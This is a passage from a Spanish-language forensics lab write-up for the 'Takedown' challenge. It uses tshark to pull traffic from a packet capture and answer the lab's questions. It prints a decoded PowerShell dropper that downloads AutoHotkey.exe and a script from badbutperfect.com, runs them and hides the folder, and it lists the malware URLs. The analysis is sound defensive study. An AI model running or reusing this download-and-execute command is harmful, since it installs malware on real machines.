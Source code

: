 AutoHotkey es un lenguaje de scripting gratuito y de código abierto para Windows que permite a los usuarios crear fácilmente scripts pequeños y complejos para todo tipo de tareas.

También podemos verlo desde la consola:

```bash 
└─$ tshark -r Takedown.pcap -Y "tcp.stream eq 1" -T fields -e data.data | xxd -ps -r 
ni 'C:/rimz' -Type Directory -Force;cd 'C:/rimz';Invoke-WebRequest -Uri "http://badbutperfect.com/test2" -OutFile 'AutoHotkey.exe';Invoke-WebRequest -Uri "http://badbutperfect.com/jvtobaqj" -OutFile 'script.ahk';Invoke-WebRequest -Uri "http://badbutperfect.com/ozkpfzju" -OutFile 'test.txt'; start 'AutoHotkey.exe' -a 'script.ahk';attrib +h 'C:/rimz' 
``` 

--- 
**task 6**

¿Desde qué URL se descargó el malware utilizado con el binario de la pregunta nº 5?

![](../assets/images/sherlock-takedown/imagen4.png)

En el análisis de virustotal podemo ver las ULR's contactadas por este malware, los nombres de esos ficheros ya nos nuesa, ya los vimos en el pcap: 

```bash 
└─$ tshark -r Takedown.pcap -Y "http.request.method == GET" -T fields -e http.request.full_uri            
http://badbutperfect.com/nrwncpwo
http://badbutperfect.com/test2
http://badbutperfect.com/jvtobaqj
http://badbutperfect.com/ozkpfzju
``` 

---
**task 7** 

Bien, volvamos un poco para atrás, y analizemos el comando encontrado en la pregunta 5. 

### Desglosemos el contenido:
